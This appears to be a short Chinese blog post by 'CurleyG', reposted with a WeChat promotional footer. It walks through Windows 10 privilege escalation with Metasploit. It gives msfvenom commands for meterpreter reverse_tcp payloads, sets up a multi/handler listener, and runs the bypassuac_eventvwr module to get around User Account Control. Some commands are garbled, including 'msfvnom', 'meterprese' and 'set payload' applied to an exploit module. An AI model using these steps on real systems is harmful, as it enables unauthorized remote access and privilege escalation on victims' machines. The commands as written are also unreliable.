 ```yaml
---
layout: post
category: curleyg-code-hack
title: Metasploit Win10提权
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Metasploit Win10提权
lock: need
---
```


# Metasploit Win10提权

## 查看目标主机的操作系统

**a) X86操作系统**

```bash
kali# msfvnom –p payload/windows/meterpreter/reverse_tcp 
```

**b) X64操作系统**

```bash
kali# msfvnom –p payload/windows/x64/meterpreter/reverse_tcp
```

## 使用msf建立会话

```bash
msf exploit(handler) > use exploit/multi/handler
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
```

## 提权

```bash
msf exploit(handler) > search bypassuac //使用bypassuac(绕过用户帐户控制) 
msf exploit(handler) > set payload exploit/windows/local/bypassuac_eventvwr # 在x64使用成功 
msf exploit(handler) > set payload windows/x64/meterprese/reverse_tcp 
msf exploit(handler) > show targets //查看目标，可选项，根据操作系统选择 
msf exploit(handler) > set target 1 #设置目标为x64，0：x86 
msf exploit(handler) > exploit
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
